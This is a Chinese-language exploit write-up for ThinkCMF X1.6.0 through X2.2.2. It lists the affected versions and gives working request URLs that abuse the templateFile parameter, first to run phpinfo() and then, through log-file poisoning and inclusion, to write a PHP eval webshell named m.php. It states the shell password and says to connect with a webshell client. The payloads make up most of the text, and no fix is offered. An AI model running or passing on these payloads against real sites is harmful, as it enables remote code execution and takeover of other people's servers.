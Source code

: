 ### 漏洞详情 ###


### 影响版本 ###

ThinkCMF X1.6.0

ThinkCMF X2.1.0

ThinkCMF X2.2.0 

ThinkCMF X2.2.1 

ThinkCMF X2.2.2

### 漏洞详情 ###

**常规操作**

    http://wiki.bylibrary.cn/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

![](图片/rId25.png)

**利用缓存文件getshell**

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log


**payload 一**

首先访问

    http://wiki.bylibrary.cn/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E
然后请求


    http://wiki.bylibrary.cn/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

即可在http://www.0-sec.org/根目录生成m.php，密码是X

payload 二

首先访问


    http://wiki.bylibrary.cn/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E
然后菜刀链接（密码也是x）

    http://wiki.bylibrary.cn/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log